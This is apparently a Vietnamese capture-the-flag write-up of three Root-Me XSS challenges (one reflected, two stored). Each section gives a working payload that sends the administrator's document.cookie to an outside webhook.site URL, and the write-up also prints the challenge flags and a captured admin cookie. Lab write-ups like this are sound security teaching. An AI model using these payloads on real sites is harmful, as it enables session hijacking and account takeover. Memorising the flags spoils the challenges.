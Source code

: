 # XSS - Reflected
alert(’xtra stupid security’)

**Statement**

Find a way to steal the administrator’s cookie.

Be careful, this administrator is aware of info security and he does not click on strange links that he could receive.
## Cách làm
Truy cập vào link http://challenge01.root-me.org/web-client/ch26/ ta sẽ thấy giao diện:

![image](https://github.com/aQ05/Write-up/assets/121664384/b0830567-58d6-46ea-b51a-c2c6b969bfd3)

Click vào từng mục, ta dễ dàng thấy ở mỗi mục có một thuộc tính `p` được gắn giá trị tương ứng từng mục:
![Screenshot 2023-11-11 145248](https://github.com/aQ05/Write-up/assets/121664384/a1ec5dec-0d3d-4d87-a7d3-c7dc92fd8c62)

Thử gán thuộc tính `p` đó cho câu lệnh `<script>alert(1)</script>` để kiểm tra xem nó có dính lỗi XSS hay không

![image](https://github.com/aQ05/Write-up/assets/121664384/8ed0492d-991e-4661-8f7e-d4e00a4c42e0)

Khi request đến `?p=<script>alert(1)</script>`, website hiển thị trang web lỗi và có một hyperlink thẻ <a> hiển thị nội dung ‘<script>alert(1)</script>’. Có thể thấy web đã dính lỗi XSS:

![image](https://github.com/aQ05/Write-up/assets/121664384/a7829112-fe4b-448b-883c-a15d6248a8ab)

Thử nhập `?p=ayuq' onmousemove='alert(1)`, page sẽ báo lỗi và hiển thị nội dung trong thẻ <a>.  (`onmousemove` khi trỏ chuột vào thì nó sẽ chạy đoạn js bên trong).

![image](https://github.com/aQ05/Write-up/assets/121664384/a756767e-6e32-4113-975d-a5b1aad6bb02)

Khi đó, ta thực hiện gửi cookie của admin vào host của mình.

Payload: `ayuq' onmousemove='document.location="https://webhook.site/aa5efb2d-0612-4b77-96cc-79606f6bc8aa?".concat(document.cookie)`

![image](https://github.com/aQ05/Write-up/assets/121664384/c6f69bd0-f38a-4781-9e82-610e23e907c2)

Thực hiện request với payload. Sau đó, ta thực hiện lại một lần nữa nhưng sẽ thực hiện thêm bước Report đến admin đển POST request:

![image](https://github.com/aQ05/Write-up/assets/121664384/102832e4-d086-4119-a80b-e2f3e269d2f9)

![Screenshot 2023-11-11 160952](https://github.com/aQ05/Write-up/assets/121664384/a6a8c118-390f-4652-82db-1a58d76dc8e5)

## Flag
`r3fL3ct3D_XsS_fTw`
# XSS - Stored 1
So easy to sploit

**Statement:** Steal the administrator session cookie and use it to validate this chall.
## Cách làm
Truy cập vào link http://challenge01.root-me.org/web-client/ch18/

![image](https://github.com/aQ05/Write-up/assets/121664384/d4fb4482-d55a-4807-bb40-1083cacdb7e3)

Trước hết ta kiểm tra xem nó bị XSS ở đâu bằng cách nhập `<script>alert(1)</script>` vào từng trường và thấy dữ liệu được lưu lại khi nhập vào ô `message`.

![image](https://github.com/aQ05/Write-up/assets/121664384/6ca93f7e-d63f-4c67-81eb-ac44c5744587)

 Dính lỗi Stored XSS tại ô `message`.

![image](https://github.com/aQ05/Write-up/assets/121664384/9e9bb840-c70d-478f-9429-c705037b2f02)

Payload một đoạn script dẫn đến host của mình kèm theo admin, ở đây chúng ta sử dụng thẻ `img` với thuộc tính `onerror` (nếu đường link dẫn đến ảnh bị lỗi thì nó sẽ tự động thực thi đoạn script bên trong mà không cần thao tác của người dùng).

Payload: `<img src=a onerror='document.location="https://webhook.site/aa5efb2d-0612-4b77-96cc-79606f6bc8aa?"+document.cookie'/>`

![image](https://github.com/aQ05/Write-up/assets/121664384/9524d672-fba8-4de7-a5e6-99cc94b3fe33)

Khi gửi ta sẽ thấy một cái ảnh bị lỗi và tự thực thi câu lệnh

![image](https://github.com/aQ05/Write-up/assets/121664384/45edbd9b-7a5e-4681-9ed1-cfe99b64e3d0)

![Screenshot 2023-11-11 214521](https://github.com/aQ05/Write-up/assets/121664384/80211e65-d540-4dbe-a361-5b9926b0b0f0)
## Flag
`NkI9qe4cdLIO2P7MIsWS8ofD6`

# XSS - Stored 2
Author

**Statement:**
Steal the administrator session’s cookie and go in the admin section.
## Cách làm
Truy cập link http://challenge01.root-me.org/web-client/ch19/

![image](https://github.com/aQ05/Write-up/assets/121664384/a0fd7f02-239e-4e30-be8d-e9b1b9834dca)

Giao diện ở đây tương tự như bài Stored 1, cũng là gửi message mà lưu lại chờ admin đọc. Trước hết ta kiểm tra xem nó bị XSS ở đâu bằng cách nhập `<script>alert(1)</script>` vào từng trường và thấy dữ liệu được lưu lại khi nhập vào ô `message`.

![image](https://github.com/aQ05/Write-up/assets/121664384/32391831-5ed1-4d3a-b5c8-a06aa0d551ed)

Kiểm tra thử thì thấy có điều đặc biệt ở đây là **Status: invite** ở mỗi post. Xem source thì thấy status được đặt trong thẻ `i`.

![image](https://github.com/aQ05/Write-up/assets/121664384/5f502bde-8b49-4244-85f5-3c4e0cbc4cab)

Và nó được xử lý dựa trên cookie này:

![image](https://github.com/aQ05/Write-up/assets/121664384/f0ce66a9-f1b0-47bc-93fd-d77073f55495)

Thử dùng Burp Suite xem có thể thay đổi được status không thì thấy status được gửi qua phần cookie và có thể tùy ý thay đổi:

![image](https://github.com/aQ05/Write-up/assets/121664384/20a3572d-e879-4c32-b592-edccee2bdea8)

 Thử payload XSS vào: `"><script>alert(1)</script><p class="`
 
![image](https://github.com/aQ05/Write-up/assets/121664384/64346860-330d-48b8-84fc-19db43675249)


Từ đó, ta đã có chỗ để tiêm XSS vào rồi. 

![image](https://github.com/aQ05/Write-up/assets/121664384/b27093ad-0b2b-43e9-9cb4-8a50d054ad22)

Tương tự các bài stored, dùng payload gửi cookie vào host của mình.

Payload:`"><img src=1 onerror='document.location="https://webhook.site/aa5efb2d-0612-4b77-96cc-79606f6bc8aa?cmd="+document.cookie'/><p class="`

![Screenshot 2023-11-11 225413](https://github.com/aQ05/Write-up/assets/121664384/1e07790b-2e14-4401-9481-6857fc87974c)

Ta thu được admin cookie: `ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F`. Có ADMIN_COOKIE, ta thay đổi vào cookie và `GET` pass:

![Screenshot 2023-11-12 003334](https://github.com/aQ05/Write-up/assets/121664384/9de048c4-c89e-4418-b8a3-49a05c220968)

## Flag
`E5HKEGyCXQVsYaehaqeJs0AfV`
